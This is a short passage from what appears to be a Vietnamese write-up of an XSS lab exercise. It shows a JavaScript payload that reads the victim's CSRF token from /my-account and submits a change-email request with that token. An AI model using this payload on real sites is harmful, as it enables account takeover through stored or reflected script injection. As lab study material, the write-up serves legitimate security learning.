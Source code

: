 ![](./img_xss/xss-17-3.png)

- Nó đã hiên console.log cho mình. Bây giờ, việc của mình có thể gửi request update email người dùng.

![](./img_xss/xss-17-4.png)

- Mình thực hiện một script như sau:

``` javascript
<script>
var req = new XMLHttpRequest();
req.onload = handleResponse;
req.open('get','/my-account',true);
req.send();
function handleResponse() {
    var token = this.responseText.match(/name="csrf" value="(\w+)"/)[1];
    var changeReq = new XMLHttpRequest();
    changeReq.open('post', '/my-account/change-email', true);
    changeReq.send('csrf='+token+'&email=test@test.com')
};
</script>
```
